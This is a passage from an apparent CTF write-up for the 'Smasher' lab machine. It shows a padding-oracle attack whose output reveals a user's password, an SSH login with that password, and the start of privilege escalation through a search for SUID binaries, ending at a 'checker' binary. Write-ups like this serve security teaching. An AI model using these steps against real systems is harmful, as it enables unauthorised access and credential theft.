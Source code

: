 We can redirect to the local 1337 port using socat: `socat tcp-listen:1338,reuseaddr,fork tcp:localhost:1337`

Then we'll launch the script against port 1338 and let it run for a bit:

```
python3 oracler.py > oracler_output.txt
```

A few lines stand out in the output:

```
b'utEFLXzYEkBmxXPAN4g253DC08NI06MbcWEOc94q0OU='
 user 'smasher' 42eb200bed0f389985bbe43762f1ba00cf6df8119be97dc4790f43bafb35d163
```

```
b'CaH58wii128IH3ksvFujmc9t+BGb6X3EeQ9Duvs10WM='
is: PaddingOraclde1ffb8adbdc35ac24caa42050f32100a3a852a3ab6882a2d8213186a4fb1776
```

```
b'ujCJcv+cH+VbLFWs7SPHdaOoUqOraIKi2CExhqT7F3Y='
eMaster123\x06\x06\x06\x06\x06\x06r
```

By putting this back together we get: `user 'smasher' is: PaddingOracleMaster123`

We can log in with that user and get the first flag:

```
root@kali:~# ssh smasher@10.10.10.89
smasher@10.10.10.89's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Jun 12 01:24:51 2018 from 10.10.16.9
smasher@smasher:~$ id
uid=1001(smasher) gid=1001(smasher) groups=1001(smasher)
smasher@smasher:~$ ls
crackme.py  socat.sh  user.txt

smasher@smasher:~$ cat user.txt
baabc<redacted>
```

### Privesc

There's a SUID file that's interesting:

```
smasher@smasher:~$ find / -perm /6000 2>/dev/null
/usr/bin/checker
```

```
smasher@smasher:~$ checker
[+] Welcome to file UID checker 0.1 by dzonerzy

Missing arguments
```
